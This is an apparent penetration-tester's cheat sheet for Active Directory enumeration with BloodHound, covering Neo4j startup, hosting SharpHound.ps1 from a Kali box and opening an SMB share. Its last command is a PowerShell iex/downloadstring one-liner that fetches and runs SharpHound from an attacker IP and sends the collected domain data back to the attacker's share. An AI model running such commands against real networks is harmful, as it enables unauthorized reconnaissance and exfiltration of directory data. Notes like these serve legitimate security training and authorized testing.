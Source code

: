 > Be sure to use `samaccountname` value as user to login


## Enumeration w/ Bloodhound
---


### Start BloodHound

**Start Neo4j**

```bash
sudo neo4j console
```

How to recover neo4j password : https://neo4j.com/docs/operations-manual/current/configuration/password-and-user-recovery/

> Connect to the `system` database using Cypher shell. Alternatively, **log into Neo4j Browser**.

**Start Bloodhound**

```bash
bloodhound
```


### Collect Data From Domain Computer


#### Using SharpHound.ps1

**CheatSheet**: https://www.thehacker.recipes/ad/recon/bloodhound

Host `SharpHound.ps1`

```bash
┌──(kali㉿kali)-[/opt/sectools/powershell]
└─$ python3 -m http.server 80
```

Open SMB Server

```bash
┌──(kali㉿kali)-[/tmp/www]
└─$ smbserver.py s . -smb2support
```

Use SharpHound to collect data

```bash
iex (new-object net.webclient).downloadstring("http://10.11.19.145/SharpHound.ps1"); Invoke-BloodHound -CollectionMethods All -RandomFileNames -OutputDirectory \\10.11.19.145\s\
```

Swap the file into bloodhound
